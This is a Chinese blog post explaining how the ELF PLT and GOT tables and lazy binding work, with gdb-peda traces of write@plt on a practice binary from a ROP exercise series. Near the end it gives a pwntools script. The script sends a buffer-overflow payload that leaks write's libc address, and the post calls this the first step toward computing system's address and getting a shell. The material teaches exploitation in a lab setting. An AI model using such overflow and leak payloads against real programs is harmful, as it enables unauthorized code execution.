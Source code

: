 ```yaml
---
layout: post
title: "非常详细地解释plt&got"
date: 2018-04-07
categories: jekyll update
---
```

### 非常详细解释plt&got
+ [比较好的参考文章](https://blog.csdn.net/DrottningholmEast/article/details/76651279)
GOT（Global Offset Table）：全局偏移表用于记录在 ELF 文件中所用到的共享库中符号的绝对地址。在程序刚开始运行时，GOT 表项是空的，当符号第一次被调用时会动态解析符号的绝对地址然后转去执行，并将被解析符号的绝对地址记录在 GOT 中，第二次调用同一符号时，由于 GOT 中已经记录了其绝对地址，直接转去执行即可（不用重新解析）。

PLT（Procedure Linkage Table）：过程链接表的作用是将位置无关的符号转移到绝对地址。当一个外部符号被调用时，PLT 去引用 GOT 中的其符号对应的绝对地址，然后转入并执行。

GOT是Linux ELF文件中用于定位全局变量和函数的一个表。PLT是Linux ELF文件中用于延迟绑定的表，即函数第一次被调用的时候才进行绑定。
所谓延迟绑定，就是**当函数第一次被调用的时候才进行绑定**（包括符号查找、重定位等），如果函数从来没有用到过就不进行绑定。基于延迟绑定可以大大加快程序的启动速度，特别有利于一些引用了大量函数的程序。(打个比方，你一次性去超市买了一大堆物品，但是其中有些物品可能你永远也不会使用，这样就浪费了钱财；而延迟绑定就相当于需要的时候才去超市买东西，这样就节省了开支。)
下面简单介绍一下延迟绑定的基本原理。假如存在一个bar函数，这个函数在PLT中的条目为bar@plt，在GOT中的条目为bar@got，那么在第一次调用bar函数的时候，首先会跳转到PLT，伪代码如下：
```
bar@plt:
jmp bar@got
patch bar@got
```
这里会从PLT跳转到GOT，如果函数从来没有调用过，那么这时候GOT会跳转回PLT并调用patch bar@got，这一行代码的作用是将bar函数真正的地址填充到bar@got，然后跳转到bar函数真正的地址执行代码。当我们下次再调用bar函数的时候，执行路径就是先后跳转到bar@plt、bar@got、bar真正的地址。

<img src="/images/posts/plt&got/1521794449228.png" >

关于这个非常棒的一个解释博文：http://rickgray.me/use-gdb-to-study-got-and-plt


例子解析：

做这个例子的时候有一个**问题**：从网上下载的ELF文件可以完成复现，但是自己用源码编译的则会出错，地址会有点奇怪，可能是自己配置的问题还处理的不够好。。。**待解决**；下面用下载下来的ELF文件(之前的level1)来解释一下这里的pit&got
**已解决**：编译程序时没有关闭pie，只要添加参数`-no-pie`即可。

这里以write函数作为例子：

首先单步执行到`call   0x8048340 <write@plt>`
查看`0x8048340`地址的情况：
```
db-peda$ x /3i 0x8048340
   0x8048340 <write@plt>:	jmp    DWORD PTR ds:0x804a00c
   0x8048346 <write@plt+6>:	push   0x18
   0x804834b <write@plt+11>:	jmp    0x8048300
```
可以看出其跳转到地址`0x804a00c`
用xinfo查看其跳转情况：
```
gdb-peda$ xinfo 0x804a00c
0x804a00c --> 0x8048346 (<write@plt+6>:	push   0x18)
Virtual memory mapping:
Start : 0x0804a000
End   : 0x0804b000
Offset: 0xc
Perm  : rwxp
Name  : /root/Desktop/ROP/linux_x86/level1
```
容易知道其在plt表中有一个跳转到`0x8048346 `，跟进查看地址情况
```
gdb-peda$ pdisass 0x8048346
Dump of assembler code from 0x8048346 to 0x8048366::	Dump of assembler code from 0x8048346 to 0x8048366:
   0x08048346 <write@plt+6>:	push   0x18
   0x0804834b <write@plt+11>:	jmp    0x8048300
   0x08048350 <_start+0>:	xor    ebp,ebp
   0x08048352 <_start+2>:	pop    esi
   0x08048353 <_start+3>:	mov    ecx,esp
   0x08048355 <_start+5>:	and    esp,0xfffffff0
   0x08048358 <_start+8>:	push   eax
   0x08048359 <_start+9>:	push   esp
   0x0804835a <_start+10>:	push   edx
   0x0804835b <_start+11>:	push   0x80484d0
   0x08048360 <_start+16>:	push   0x8048460
   0x08048365 <_start+21>:	push   ecx
End of assembler dump.

```

又一次跳转`0x8048300`：
```
gdb-peda$ pdisass 0x8048300
Dump of assembler code from 0x8048300 to 0x8048320::	Dump of assembler code from 0x8048300 to 0x8048320:
   0x08048300:	push   DWORD PTR ds:0x8049ff8
   0x08048306:	jmp    DWORD PTR ds:0x8049ffc
   0x0804830c:	add    BYTE PTR [eax],al
   0x0804830e:	add    BYTE PTR [eax],al
   0x08048310 <read@plt+0>:	jmp    DWORD PTR ds:0x804a000
   0x08048316 <read@plt+6>:	push   0x0
   0x0804831b <read@plt+11>:	jmp    0x8048300
End of assembler dump.
```
再一次跳转`0x8049ffc`
```
gdb-peda$ xinfo 0x8049ffc
0x8049ffc --> 0xb7ff0710 (<_dl_runtime_resolve>:	push   eax)
Virtual memory mapping:
Start : 0x08049000
End   : 0x0804a000
Offset: 0xffc
Perm  : r-xp
Name  : /root/Desktop/ROP/linux_x86/level1
```
这上面的`_dl_runtime_resolve`涉及到后面level4要讲的一个高级ROP的用法，这里先不对这里作详细讲解

经过上面的流程分析(多次跳转)，我们可以进行进行单步调试来进行分析，当动态解析（_dl_runtime_resolve）完成后，流程会直接跳转到 printf() 函数主体

这一堆的跳转可以结合上面那一副图来进行理解。

<img src="/images/posts/plt&got/1523088173997.png" >

单步跟进发现进行一系列的符号解析操作之后ret到write函数的真正地址`0xb7ed3cc0`进行操作。

<img src="/images/posts/plt&got/1523088253947.png" >

怎样验证这个就是write的真实地址呢？
写了个程序来打印write的真实地址：
注：下面这个脚本可以用来泄露libc地址的第一步，再通过计算可以得到system的真实地址，最后成功getshell。
```
from pwn import *
elf = ELF('level1')

p = process('./level1')

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)
```

运行结果：

<img src="/images/posts/plt&got/1523089037547.png" >

总结来说就是，GOT 保存了程序中所要调用的函数的地址，运行一开时其表项为空，会在运行时实时的更新表项。一个符号调用在第一次时会解析出绝对地址更新到 GOT 中，第二次调用时就直接找到 GOT 表项所存储的函数地址直接调用了。










